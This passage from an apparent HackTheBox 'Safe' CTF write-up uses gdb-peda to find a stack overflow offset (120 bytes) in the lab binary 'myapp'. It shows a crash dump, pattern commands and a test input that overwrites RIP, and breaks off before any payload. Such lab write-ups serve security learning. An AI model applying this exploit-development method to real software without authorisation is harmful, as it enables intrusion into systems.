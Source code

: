 ```
=> 0x4011ac <main+77>:  ret    
   0x4011ad:    nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:  push   r15
   0x4011b2 <__libc_csu_init+2>:        mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:        push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdfb8 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffdfc0 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffdfc8 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffdfd0 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0032| 0x7fffffffdfd8 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0040| 0x7fffffffdfe0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0048| 0x7fffffffdfe8 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0056| 0x7fffffffdff0 ("AuAAXAAvAAYAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()

```

It’s stuck on the `ret`, which is trying to move the top value on the stack into RIP, but that value isn’t a valid memory address, so it throws a `SIGSEGV`.

I can now enter that pattern that’s on the top of the stack to find the offset:

```

gdb-peda$ pattern_offset jAA9AAOA
jAA9AAOA found at offset: 120

```

I can test by creating a new fill of 120, and then adding eight `b` at the end:

```

gdb-peda$ pattern_create 120     
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
gdb-peda$ r                  
Starting program: /media/sf_CTFs/hackthebox/safe-10.10.10.147/myapp 
[Detaching after vfork from child process 15848]
 14:23:47 up 13 days,  2:08, 32 users,  load average: 1.49, 1.32, 1.15

What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAbbbbbbbb
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAbbbbbbbb

```

When I hit enter, I crash, with eight `b` waiting to load into RIP at the top of the stack:
